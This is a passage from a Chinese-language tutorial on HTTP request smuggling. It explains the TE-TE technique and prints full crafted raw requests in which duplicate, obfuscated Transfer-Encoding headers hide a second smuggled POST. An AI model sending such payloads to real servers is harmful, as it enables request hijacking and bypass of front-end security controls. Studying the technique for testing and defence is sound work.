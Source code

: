 ```plain
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

成功报错，造成HTTP请求走私。

#### TE-TE

TE-TE，当收到存在两个请求头的请求包时，前后端服务器都处理`Transfer-Encoding`请求头，确实是实现了RFC的标准。不过前后端服务器不是同一种。这就有了一种方法，我们可以对发送的请求包中的`Transfer-Encoding`进行某种混淆操作(如某个字符改变大小写)，从而使其中一个服务器不处理`Transfer-Encoding`请求头。在某种意义上这还是`CL-TE`或者`TE-CL`。  
**构造请求示例**：

```plain
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```plain
0\r\n
\r\n
```

认为是读取结束。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器处理`Transfer-encoding`请求头，将`Transfer-Encoding`隐藏在服务端的一个`chain`中时，它将会回退到使用`Content-Length`去发送请求。读取到

```plain
5c\r\n
```

认为是读取完毕了。后面的数据就认为是另一个请求：

```plain
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```
